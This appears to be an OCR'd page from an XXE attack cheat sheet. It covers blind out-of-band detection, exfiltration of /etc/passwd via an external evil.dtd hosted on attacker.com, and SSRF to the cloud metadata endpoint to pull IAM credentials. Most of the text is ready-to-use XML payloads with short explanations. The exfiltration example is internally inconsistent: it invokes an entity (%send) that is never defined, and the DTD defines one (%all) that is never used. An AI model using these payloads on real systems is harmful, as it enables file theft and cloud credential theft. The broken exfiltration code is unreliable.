 ## Blind XXE (Out-of-band Data Exfiltration)
The application processes the external entity but does not return its content directly in the response. The attacker needs an out-of-band channel (e.g., DNS lookup or HTTP request to an attacker-controlled server) to confirm the vulnerability and exfiltrate data.  

**Requirements**: The XML parser must be configured to make HTTP/DNS requests to external resources.  

### Basic Out-of-band Detection (using HTTP/DNS callback)
#### Payload (using Parameter Entity)
            ```xml
            <?xml version="1.0"?>
            <!DOCTYPE foo [
              <!ENTITY % xxe SYSTEM "http://attacker.com/xxe_test.txt">
              %xxe;
            ]>
            <root>Test</root>
            ```
**Explanation**: The `xxe` entity requests a resource from `attacker.com`. If `attacker.com` receives this HTTP request (or DNS lookup), the XXE is confirmed.  

**Tool**: Use a service like Burp Collaborator, interact.sh, or a simple Python HTTP server to monitor for incoming requests.  

### Out-of-band Data Exfiltration (using Parameter Entities and an external DTD)
#### Payload (sent to target)  
            ```xml
            <?xml version="1.0"?>
            <!DOCTYPE foo [
              <!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://attacker.com/?data=%file;'>">
              <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
              %dtd;
              %send;
            ]>
            <root>Test</root>
            ```
- **`evil.dtd` hosted on `attacker.com`**:  
            ```xml
            <!ENTITY % file SYSTEM "file:///etc/passwd">
            <!ENTITY % eval "<!ENTITY &#x25; all SYSTEM 'http://attacker.com/leak?data=%file;'>">
            %eval;
            ```
**Explanation**: The target requests `evil.dtd`. `evil.dtd` reads `/etc/passwd` into `%file`. Then, another entity `%eval` is defined which attempts to make an HTTP request to `attacker.com/leak` with the content of `%file` in the `data` parameter. The attacker monitors `attacker.com` for this incoming request, which will contain the contents of `/etc/passwd`.  

## XXE for Server-Side Request Forgery (SSRF)**
Use XXE to make the application request URLs on behalf of the attacker, targeting internal systems or cloud metadata endpoints.  
#### Payload
        ```xml
        <?xml version="1.0"?>
        <!DOCTYPE foo [
          <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-full-access">
        ]>
        <root>&xxe;</root>
        ```